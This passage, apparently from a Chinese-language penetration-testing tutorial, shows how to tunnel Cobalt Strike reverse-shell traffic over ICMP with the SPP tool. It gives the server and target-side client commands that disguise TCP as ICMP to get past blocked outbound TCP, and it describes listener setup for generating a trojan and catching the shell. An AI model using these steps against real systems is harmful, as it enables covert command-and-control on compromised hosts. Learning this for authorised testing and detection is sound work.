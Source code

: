 ![image-20230615134158892](https://s2.loli.net/2023/06/15/eTuJSmFC1Dl3xaE.png)

#### 设置监听的监听器

这里只需要监听本地的IP地址以及5555端口即可。

![image-20230615134348934](https://s2.loli.net/2023/06/15/9i6TvEmFjMwNRaB.png)

### 执行效果

可以看到成功上线。

![image-20230615134518368](https://s2.loli.net/2023/06/15/bBWCvE9XheGMAnt.png)

## SPP隧道建立

这里主要就是目标主机的出网TCP被禁止，但是ICMP协议是能够通信的，所以通过SPP将目标主机上的TCP流量伪装为ICMP协议转发给服务端。

![image-20230615134710174](https://s2.loli.net/2023/06/15/gTV9kIUfsCFL4OH.png)

### 服务端设置

这里需要设置监听的是icmp协议。

```
./spp -type server -proto ricmp -listen 0.0.0.0  ##这里设置监听ICMP协议，全端口
```

![image-20230615140135823](https://s2.loli.net/2023/06/15/9pW1JUQ2nCYkuhX.png)

### 客户端配置

这里的客户端配置，就需要到目标主机上设置，由于是将本地的TCP伪装为ICMP所以需要转发本地的端口。

```
spp -name “test” -type proxy_client -server 服务端IP -fromaddr :5555 -toaddr :6666 -proxyproto tcp -proto ricmp
```

![image-20230615140348340](https://s2.loli.net/2023/06/15/F16hfVypuGEkAWR.png)

### CS设置

这里CS需要设置两个监听器，一个用于生成木马，一个用于接收反弹shell。

#### 设置生成的监听器

这里要生成本地的5555端口，因为客户端上已经设置了将5555端口转发了。

![image-20230615135829041](https://s2.loli.net/2023/06/15/hcv4Rys1EDBn3Au.png)

#### 设置监听的监听器
